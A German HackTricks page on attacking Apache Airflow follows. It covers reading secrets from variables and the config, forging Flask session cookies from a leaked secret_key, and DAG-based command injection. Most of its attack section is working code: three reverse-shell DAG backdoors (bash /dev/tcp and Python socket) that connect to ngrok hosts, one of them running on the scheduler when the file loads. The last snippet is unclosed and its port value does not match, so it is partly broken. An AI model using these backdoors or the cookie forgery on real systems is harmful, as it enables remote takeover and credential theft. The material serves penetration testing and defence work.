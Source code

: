 # Apache Airflow Sicherheit

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

### Grundinformationen

[**Apache Airflow**](https://airflow.apache.org) dient als Plattform für **die Orchestrierung und Planung von Datenpipelines oder Workflows**. Der Begriff "Orchestrierung" im Kontext von Datenpipelines bezeichnet den Prozess der Anordnung, Koordination und Verwaltung komplexer Daten-Workflows, die aus verschiedenen Quellen stammen. Der Hauptzweck dieser orchestrierten Datenpipelines besteht darin, verarbeitete und konsumierbare Datensätze bereitzustellen. Diese Datensätze werden umfassend von einer Vielzahl von Anwendungen genutzt, einschließlich, aber nicht beschränkt auf Business-Intelligence-Tools, Datenwissenschafts- und Machine-Learning-Modelle, die alle grundlegend für das Funktionieren von Big-Data-Anwendungen sind.

Im Grunde wird Apache Airflow es dir ermöglichen, **die Ausführung von Code zu planen, wenn etwas** (Ereignis, Cron) **passiert**.

### Lokales Labor

#### Docker-Compose

Du kannst die **Docker-Compose-Konfigurationsdatei von** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) verwenden, um eine vollständige Apache Airflow Docker-Umgebung zu starten. (Wenn du auf MacOS bist, stelle sicher, dass du der Docker-VM mindestens 6 GB RAM zuweist).

#### Minikube

Eine einfache Möglichkeit, **Apache Airflow auszuführen**, besteht darin, es **mit Minikube** zu betreiben:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow-Konfiguration

Airflow könnte **sensible Informationen** in seiner Konfiguration speichern oder Sie könnten schwache Konfigurationen finden:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Bevor Sie mit dem Angriff auf Airflow beginnen, sollten Sie verstehen, **wie Berechtigungen funktionieren**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Angriffe

#### Webkonsole Enumeration

Wenn Sie **Zugriff auf die Webkonsole** haben, könnten Sie in der Lage sein, einige oder alle der folgenden Informationen zuzugreifen:

* **Variablen** (Benutzerdefinierte sensible Informationen könnten hier gespeichert sein)
* **Verbindungen** (Benutzerdefinierte sensible Informationen könnten hier gespeichert sein)
* Zugriff auf `http://<airflow>/connection/list/`
* [**Konfiguration**](./#airflow-configuration) (Sensible Informationen wie der **`secret_key`** und Passwörter könnten hier gespeichert sein)
* Liste der **Benutzer & Rollen**
* **Code jedes DAG** (der interessante Informationen enthalten könnte)

#### Abrufen von Variablenwerten

Variablen können in Airflow gespeichert werden, damit die **DAGs** auf ihre Werte **zugreifen** können. Es ist ähnlich wie bei Geheimnissen anderer Plattformen. Wenn Sie **genug Berechtigungen** haben, können Sie sie in der GUI unter `http://<airflow>/variable/list/` abrufen.\
Airflow zeigt standardmäßig den Wert der Variablen in der GUI an, jedoch ist es laut [**diesem**](https://marclamberti.com/blog/variables-with-apache-airflow/) möglich, eine **Liste von Variablen** festzulegen, deren **Wert** in der **GUI** als **Sternchen** angezeigt wird.

![](<../../.gitbook/assets/image (164).png>)

Diese **Werte** können jedoch weiterhin über **CLI** (Sie müssen DB-Zugriff haben), **willkürliche DAG**-Ausführung, **API**-Zugriff auf den Variablen-Endpunkt (die API muss aktiviert sein) und **sogar die GUI selbst!**\
Um auf diese Werte über die GUI zuzugreifen, wählen Sie einfach die **Variablen** aus, auf die Sie zugreifen möchten, und **klicken Sie auf Aktionen -> Exportieren**.\
Eine andere Möglichkeit besteht darin, einen **Bruteforce** auf den **versteckten Wert** durchzuführen, indem Sie die **Suchfilterung** verwenden, bis Sie ihn erhalten:

![](<../../.gitbook/assets/image (152).png>)

#### Privilegieneskalation

Wenn die Konfiguration **`expose_config`** auf **True** gesetzt ist, können Benutzer ab der **Rolle Benutzer** und **darüber hinaus** die **Konfiguration im Web** **lesen**. In dieser Konfiguration erscheint der **`secret_key`**, was bedeutet, dass jeder Benutzer mit diesem gültigen Schlüssel **seinen eigenen signierten Cookie erstellen kann, um sich als ein anderer Benutzeraccount auszugeben**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG-Hintertür (RCE im Airflow-Worker)

Wenn Sie **Schreibzugriff** auf den Ort haben, an dem die **DAGs gespeichert sind**, können Sie einfach **eine erstellen**, die Ihnen eine **Reverse-Shell** sendet.\
Beachten Sie, dass diese Reverse-Shell innerhalb eines **Airflow-Worker-Containers** ausgeführt wird:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE im Airflow-Scheduler)

Wenn Sie etwas auf **der Wurzel des Codes ausführen** lassen, wird es zum Zeitpunkt des Schreibens **vom Scheduler ausgeführt**, nachdem es ein paar Sekunden lang im DAG-Ordner platziert wurde.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAG-Erstellung

Wenn es Ihnen gelingt, **eine Maschine im DAG-Cluster zu kompromittieren**, können Sie neue **DAG-Skripte** im `dags/`-Ordner erstellen, und sie werden **in den restlichen Maschinen** im DAG-Cluster **repliziert**.

#### DAG-Code-Injection

Wenn Sie einen DAG über die GUI ausführen, können Sie **Argumente** an ihn **übergeben**.\
Daher könnte der DAG, wenn er nicht ordnungsgemäß codiert ist, **anfällig für Command Injection** sein.\
Das ist, was in diesem CVE passiert ist: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Alles, was Sie wissen müssen, um **nach Command Injections in DAGs zu suchen**, ist, dass **Parameter** mit dem Code **`dag_run.conf.get("param_name")`** **zugegriffen** werden.

Darüber hinaus könnte die gleiche Verwundbarkeit auch bei **Variablen** auftreten (beachten Sie, dass Sie mit ausreichenden Rechten **den Wert der Variablen** in der GUI **steuern** könnten). Variablen werden **mit** zugegriffen:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Wenn sie beispielsweise innerhalb eines Bash-Befehls verwendet werden, könnten Sie eine Befehlsinjektion durchführen.

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
